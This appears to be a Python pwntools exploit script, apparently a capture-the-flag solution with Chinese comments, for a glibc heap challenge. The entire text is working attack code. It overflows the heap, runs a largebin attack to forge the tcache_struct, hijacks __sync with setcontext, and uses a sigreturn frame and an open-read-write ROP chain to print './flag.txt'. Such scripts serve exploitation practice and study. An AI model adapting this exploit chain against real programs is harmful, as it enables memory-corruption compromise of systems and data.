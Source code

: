 ```python
        Write = libc_base + libc.sym['write']
        IO_helper_jumps = libc_base + 0x1E38C0
        # p &_IO_helper_jumps
        # p &_IO_file_jumps # +0x60
        
        frame = SigreturnFrame()
        frame.rsp = heap_base + 0x7A90 + 0x58 # orw_addr
        frame.rip = pop_rdi_ret + 1 #ret
        
        orw  = ''# 写在最下方
        orw += p64(pop_rax_ret) + p64(2)
        orw += p64(pop_rdi_ret)+p64(heap_base + 0x7B78)# flag
        orw += p64(pop_rsi_ret)+p64(0)
        orw += p64(syscall_ret)
        orw += p64(pop_rdi_ret) + p64(3)
        orw += p64(pop_rdx_r12) + p64(0x100) + p64(0)
        orw += p64(pop_rsi_ret) + p64(heap_base + 0x10000)
        orw += p64(Read)
        orw += p64(pop_rdi_ret)+p64(1)
        orw += p64(Write)
        orw += './flag.txt\x00\x00'
        ###################################用堆溢出去进行largebinattack
        New(0x130,'\x00'*0x108 + p64(0x4B1)) #14 覆盖7的size实现堆溢出
        New(0x440,'FMYY') #15 用于larginbinattack以及伪造tcache_struct
        New(0x8B0,'\x00'*0x20 + p64(0x21)*8) #16 把unsotbin全申请了
        New(0x430,'FMYY') #17 垫子
        New(0x108,'FMYY') #18
        Free(15)
        ######
        New(0x800,'FMYY')# 15 put in largebin
        Free(15)# 0x450
        ######
        Free(7) # 利用7去编辑largebin
        New(0x4A0,'\x00'*0x28 + p64(0x451) + p64(main_arena + 1120)*2 + p64(heap_base + 0x5650) + p64(magic - 0x20))# 7 largebin attack 更换tcache_struct
        Free(17) # 当个垫子
        New(0x800,str(frame) + orw)# 15 put in largebin同时会写入17号堆
        Free(15)
        New(0x430,'FMYY')# 15 再次申请用于largebinattack的chunk同时写入mp_
        # lg("magic")
        
        Free(7)
        New(0x4A0,'\x00'*0x30 + '\x01'*0x90 + p64(libc_base + 0x1E54C0 + 0x60)*0x10 + p64(libc_base + 0x1E48C0 + 0xA0)*0x10)# 伪造tcache_struct 用于申请__sync和IO_help+0xa0
        Free(0)
        Free(1)
        New(0x108,p64(libc_base + libc.sym['setcontext'] + 61))# 0 __sync
        New(0x208,str(frame)[0xA0:])# 1 IO_help+0xa0
        # 触发assert
        menu(1)
        p.sendafter('Size:',str(0x420))
        break
    except:
        p.close()
p.interactive()
# p/x *(tcbhead_t *)0x7fd6e1dd6580
```
